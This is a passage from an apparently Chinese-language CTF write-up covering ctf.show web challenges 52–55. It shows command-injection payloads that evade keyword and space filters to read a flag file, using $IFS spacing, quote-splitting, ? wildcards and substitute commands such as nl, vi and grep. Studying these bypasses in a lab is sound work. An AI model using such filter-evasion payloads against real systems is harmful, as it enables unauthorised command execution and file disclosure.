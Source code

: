 ```
http://3a66b6d9-61ce-41d4-a221-55d6fe242df2.challenge.ctf.show/?c=nl$IFS/fla''g%0a
http://3a66b6d9-61ce-41d4-a221-55d6fe242df2.challenge.ctf.show/?c=nl${IFS}/fla''g%0a
```

## web53

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081543164.png)

nl 绕过

看了 hint 发现 `''` 绕过也适用于 Linux 命令

```bash
c''at${IFS}fla''g.p''hp
```

## web54

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081547703.png)

简单来说就是把 `''` 的过滤给 ban 了

无法使用 `ca''t` 来绕过关键字过滤

用 vi 和 `?` 绕过

```
http://e0414892-98e9-4268-b037-7cb78f8fef71.challenge.ctf.show/?c=vi${IFS}fla?.php%0a
```

网上 wp 的其他绕过方式

```bash
uniq${IFS}fla?.php
grep${IFS}'ctfshow'${IFS}fla?.php
mv${IFS}fla?.php${IFS}a.txt # 浏览器访问 a.txt
```

hint 的方法比较有意思

```bash
/bin/?at${IFS}f???????
```

利用 `?` 通配符匹配到 cat 命令的文件路径 `/bin/cat`, 然后查看 flag.php

测试了一下发现 `???????`, `???????p`, `f?ag.php` `fl?ag.php` `fla?.php` 等等都能读取

但是 `?lag.php` 读取不了, 不知道是什么原因

(可能要多试几个 payload?)

## web55

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081600955.png)

直接使用 `/???/??? ????.???` 会匹配到很多莫名其妙的东西...

